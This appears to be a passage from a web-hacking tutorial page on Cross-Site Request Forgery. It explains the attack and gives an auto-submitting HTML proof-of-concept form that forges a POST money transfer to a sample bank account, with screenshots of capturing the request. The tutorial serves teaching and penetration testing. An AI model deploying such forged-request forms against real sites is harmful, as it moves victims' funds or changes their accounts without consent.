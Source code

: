# Cross-Site Request Forgery (CSRF)
Cross-Site Request Forgery (CSRF) is an attack that ***forces authenticated users to submit a request to a Web application against which they are currently authenticated***. <br />
CSRF attacks exploit the trust a Web application has in an authenticated user.
These attacks can be delivered via either the GET or POST method, depending on the scenario.


## Basic CSRF via POST method.
### Basic CSRF via POST method EXPLANATION:
We can perform a CSRF using the POST method. To do this, we have to do the action we want to exploit in our own account and capture the resulting POST request. Once we have it, we create an html form to deliver it. 
We can use automated resources such as [CSRF PoC-Generator](https://hacktify.in/hacktify-csrf-poc-generator/), or we can use the following script customizing it to our own situation:
```html
<html>
<body>
<form action="https://xymbank.com/online/transfer" method="POST">
<input type="hidden" name="amount" value="500"/>
<input type="hidden" name="account" value="654585" />
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```

### Basic CSRF via POST method EXPLOITATION:
- First, we capture the POST method:<br />
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/54d619ca-980e-43c2-aa79-b6cd7fd7047c" width="600"><br />
- Finally, we create the CSRF PoC to deliver it to our victim:
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/41cfc524-504d-4f8c-8130-fc019b00d52e" width="700"><br />







In the next example we are going to tr
